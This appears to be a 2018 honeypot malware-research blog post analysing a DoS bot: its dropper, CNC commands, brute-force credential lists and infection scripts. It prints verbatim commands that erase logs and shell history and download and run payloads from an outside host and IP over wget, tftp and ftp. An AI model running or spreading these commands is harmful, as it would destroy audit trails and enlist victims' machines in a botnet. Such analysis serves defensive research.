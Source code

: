 ```yaml
---
layout: post
title: "b08f9dc5784532be5b3f695f37c7781b"
date: 2018-09-06
categories:
    - blog
tags:
    - malware research
    - reverse engineering
    - honeypot
keywords: "re, malware, honeypot"
---
```


Initial file dropped:

```
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; wget keedz.tk/client ; chmod +x client ; ./client ; rm -rf client ; rm -rf bash_history ; export HISTFILE=/dev/null ; rm -rf botz.sh ; exit
```

The `client` is a 64-bit ELF binary. The binary acts as a DoS bot which connect to their CNC (5.135.209.121) on port 23.

Available commands:

```
GETLOCALIP
SCANNER ON | OFF
HOLD
JUNK
HTTP
COMBO
KILLATTK
FUCKOFF
```

Below is the connection to the CNC:

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* SCANNER ON
PING
PONG
```

If you try to connect for the 2nd time, this will be output.

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* LOLNOGTFO
Connection closed by foreign host.
```

However, the CNC can be connected again after a few seconds.

The binary spread by bruteforcing the login for a random IP addresses.

List of usernames:

```
root
admin
user
login
guest
support
```
List of passwords:

```
root
toor
admin
user
guest
login
changeme
1234
12345
123456
default
password
support
```

Once logged in, it will execute the following commands:

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 5.135.209.121 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 5.135.209.121; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 23 5.135.209.121 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
```

Inside bins.sh, more binary will be fetch

```
-e #!/bin/bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ntpd; chmod +x ntpd; ./ntpd; rm -rf ntpd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sshd; chmod +x sshd; ./sshd; rm -rf sshd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/openssh; chmod +x openssh; ./openssh; rm -rf openssh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bash; chmod +x bash; ./bash; rm -rf bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/tftp; chmod +x tftp; ./tftp; rm -rf tftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/wget; chmod +x wget; ./wget; rm -rf wget
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/cron; chmod +x cron; ./cron; rm -rf cron
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ftp; chmod +x ftp; ./ftp; rm -rf ftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/pftp; chmod +x pftp; ./pftp; rm -rf pftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sh; chmod +x sh; ./sh; rm -rf sh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/' '; chmod +x ' '; ./' '; rm -rf ' '
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/apache2; chmod +x apache2; ./apache2; rm -rf apache2
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/telnetd; chmod +x telnetd; ./telnetd; rm -rf telnetd
```
